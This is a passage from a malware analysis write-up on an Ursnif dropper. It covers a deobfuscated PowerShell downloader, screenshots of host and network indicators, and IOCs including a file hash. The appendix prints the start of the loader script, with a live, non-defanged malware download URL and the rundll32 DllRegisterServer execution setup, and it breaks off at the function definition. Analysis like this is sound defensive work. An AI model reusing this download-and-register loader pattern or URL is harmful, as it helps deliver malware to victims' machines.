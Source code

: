 
**Powershell script after deobfuscation.**

The PowerShell script executes a series of a task to download and register a binary file. 
The script  attempts to download the file from a specified URL. hxxp[://]to4karu[.]ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu[.]bin. The function checks if the downloaded file is greater than or equal to 99463 bytes. If it is, the DLL file is registered using rundll32.exe, and the downloaded file is deleted. If an exception occurs during the download, the function waits for 5 seconds and then tries again. The function continues to run until the downloaded file is successfully registered and deleted.

---

# Running the Macros

## Host-based Indicators 

![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-16.png){:width="100%"}


**Output of process hacker. Invokes powershell to download the payload.**

![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-17.png){:width="100%"}


**Command line executed by powershell which is the encoded base64 download script** 

![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-18.png){:width="100%"}


**Malicious payload is dropped in the user's profile directory.**


## Network Indicators 

![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-19.png){:width="100%"}


![]({{site.baseurl}}/assets/img/2023-02-28-Malware-Analysis-Ursnif-Dropper-20.png){:width="100%"}


**Procmon and Wireshark Packet capture of downloading the malicious payload.** 

---

# IOCs 
```
hxxp[://]to4karu[.]ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu[.]bin
ujfnrhzvpittgwsj.bin
580776d602e2edd816472ca7b9f651740d24313477598c88cc8b9a04a1016394  23-04-2020.doc
```

---

# Appendices
## Deobfuscated PS script
---
```
$download_url = "http://to4karu.ru/ukhseigfuhasfoiuewgfuyasdfasuydfbu.bin";
$downloaded_file = "ujfnrhzvpittgwsj.bin";
$register_command = "$downloaded_file, DllRegisterServer";

# Download file from URL to user's profile directory
function download_file {
```